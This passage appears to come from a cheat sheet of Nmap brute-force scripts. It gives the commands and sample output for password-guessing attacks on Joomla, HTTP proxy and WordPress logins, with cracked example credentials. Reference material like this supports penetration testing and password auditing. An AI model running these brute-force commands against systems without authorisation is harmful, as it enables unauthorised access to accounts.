 
     |PORT     STATE SERVICE REASON
     |80/tcp open  http    syn-ack
     | http-joomla-brute:
     |   Accounts
     |     xdeadbee:i79eWBj07g => Login correct
     |   Statistics
     |_    Perfomed 499 guesses in 301 seconds, average tps: 0



## HTTP-Proxy - Brute-Force
_Performs Brute-Force password guessing against HTTP proxy servers_
     
     root@hostname: ~/ # nmap --script http-proxy-brute -p 8080 192.168.1.12

     |PORT     STATE SERVICE
     |8080/tcp open  http-proxy
     | http-proxy-brute:
     |   Accounts
     |     patrik:12345 - Valid credentials
     |   Statistics
     |_    Performed 6 guesses in 2 seconds, average tps: 3


## HTTP-WordPress - Brute-Force
_Performs Brute-Force password auditing against Wordpress CMS/blog installations_
     
     root@hostname: ~/ # nmap -sV --script http-wordpress-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.hostname=domain.com,http-wordpress-brute.threads=3,brute.firstonly=true' 192.168.1.12

     |PORT     STATE SERVICE REASON
     |80/tcp   open  http    syn-ack
     | http-wordpress-brute:
     |   Accounts
     |     0xdeadb33f:god => Login correct
     |   Statistics
     |_    Perfomed 103 guesses in 17 seconds, average tps: 6
